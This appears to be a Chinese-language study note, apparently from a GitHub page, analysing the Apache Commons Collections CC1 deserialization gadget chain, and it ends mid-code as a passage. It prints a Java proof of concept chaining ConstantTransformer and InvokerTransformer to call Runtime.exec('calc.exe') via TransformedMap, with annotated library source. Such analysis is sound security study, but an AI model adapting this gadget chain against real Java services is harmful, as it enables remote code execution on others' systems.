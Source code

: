 ### CC链的介绍

>   Apache Commons 当中有⼀个组件叫做 Apache Commons Collections ，主要封装了Java 的 Collection(集合) 相关类对象，它提供了很多强有⼒的数据结构类型并且实现了各种集合工具类。
>
> 作为Apache开源项⽬的重要组件，Commons Collections被⼴泛应⽤于各种Java应⽤的开发，⽽正 是因为在⼤量web应⽤程序中这些类的实现以及⽅法的调⽤，导致了反序列化⽤漏洞的普遍性和严重性。
>
> Apache Commons Collections中有⼀个特殊的接口，其中有⼀个实现该接口的类可以通过调用 Java的反射机制来调用任意函数，叫做InvokerTransformer。

* 简单来说就是利用org.apache.commons.collections中的各种类构成的序列化对象,实现序列化漏洞的利用.由于该库中的各种类极其丰富,有不止一种链条来引发反序列化漏洞.

### P牛的CommonCollections1分析

#### 代码分析

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class CommonCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[]
                                {"calc.exe"}),
        };

        Transformer transformerChain = new
                ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```

```java
//  Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
// 对innerMap进行修饰,当返回对象outerMap put(null,value)时,调用了transformerChain.transform(value)
// 实际上可以看到put内`key = transformKey(key);value = transformValue(value);`实际上调用的类和方法是相同的
// 所以，TransformedMap.decorate(innerMap, transformerChain, null);同样可以触发漏洞
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    return new TransformedMap(map, keyTransformer, valueTransformer);
}

protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    super(map);
    this.keyTransformer = keyTransformer;
    this.valueTransformer = valueTransformer;
}

public Object put(Object key, Object value) {
    key = transformKey(key);
    value = transformValue(value);  
    return getMap().put(key, value);
```